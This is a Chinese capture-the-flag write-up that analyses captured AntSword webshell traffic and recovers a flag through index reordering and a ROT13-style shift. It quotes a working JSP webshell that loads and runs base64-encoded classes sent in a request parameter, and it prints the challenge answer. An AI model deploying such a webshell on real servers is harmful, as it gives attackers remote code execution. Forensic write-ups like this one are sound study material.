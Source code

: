 ```yaml
---
title: 蚁剑流量
date: 2024-03-16 14:31:23
updated: 2024-11-15 21:49:39
categories:
  - 网络安全
  - CTF竞赛
  - 蓝桥杯
  - Misc
tags:
  - 网络安全
  - CTF
  - Misc
permalink: /posts/蚁剑流量/
---
```

## 题目描述
某公司为了提高网络安全防护水平，设置了一台蜜罐，用于识别和分析网络攻击行为。最近，该蜜罐捕获到了一段流量，经过初步分析发现其中存在蚁剑的流量特征。蚁剑是一款常用的远程管理工具，它提供了多种编码器和解码器，用以绕过防火墙和安全检测软件的检测。假设你是该公司的安全专家，请你对这段流量进行深入分析，分析其中的编码和解码过程，找出其中所隐藏的flag。

## 解题



下载附件，得到一个流量包：
打开筛选http流量：
![](蚁剑流量/image-20240304155446822.png)

可以看到包并不多，逐个查看流量包，找到一个jsp脚本：
```jsp
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("study");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```
观察脚本，并未发现关键信息，继续查看，
在最后一个http流量中找到flag关键字，不过是逆序的：
![](蚁剑流量/image-20240304155728985.png)

导出数据得到一个int型数组，可以看到都是数字，并且都小于42（flag长度），猜测这是flag的下标：

```c++
flag_index[] = {40, 17, 35, 22, 28, 26, 8, 5, 19, 13, 4, 34, 21, 12, 36, 41, 37, 42, 30, 11, 23, 16, 29, 24, 18, 31, 20, 15, 3, 25, 7, 27, 38, 14, 6, 39, 32, 33, 2, 1, 9, 10}
```
但是并未发现其他信息，继续查看流量包，找到关键信息：
![](蚁剑流量/image-20240304160045340.png)

提取出来得到数组：
```c++
flag_data[] = "prsy6ppr-1qn8nq42r--20sp}7sp219to-{r57or66"
```
观察可以看到有`{}`和`-`，很符合flag格式：
编写脚本恢复flag正确数据位置：
```c++
#include<iostream>

int main()
{
    char flag_data[43] = "prsy6ppr-1qn8nq42r--20sp}7sp219to-{r57or66";
    int flag_index[42] = {40, 17, 35, 22, 28, 26, 8, 5, 19, 13, 4, 34, 21, 12, 36, 41, 37, 42, 30, 11, 23, 16, 29, 24, 18, 31, 20, 15, 3, 25, 7, 27, 38, 14, 6, 39, 32, 33, 2, 1, 9, 10};
    char flag[43] = "";

    for (int i = 0; i < 42; i++)
    {
        int index = flag_index[42 - (i + 1)];
        flag[index - 1] = flag_data[i];
    }
    std::cout << flag << std::endl;
}
// synt{rnrrps2o-q26r-41o0-85q7-p2p69rp71p6s}
```
可以看到答案很接近了，根据经验不难发现，数据是进行了移位，并未刚好13位，
猜测是ROT13：
编写脚本得到flag：
```c++
//ROT13
    for (int k = 0; k < 42; k++){
        if (flag[k] == '{' || flag[k] == '}' || flag[k] == '-' || (flag[k] >= '0' && flag[k] <= '9') )
        {
            continue;
        }
        else
        {
            flag[k] -= 13;
        }
    }
    std::cout << flag;
// flag{eaeecf2b-d26e-41b0-85d7-c2c69ec71c6f}
```

得到`flag{eaeecf2b-d26e-41b0-85d7-c2c69ec71c6f}`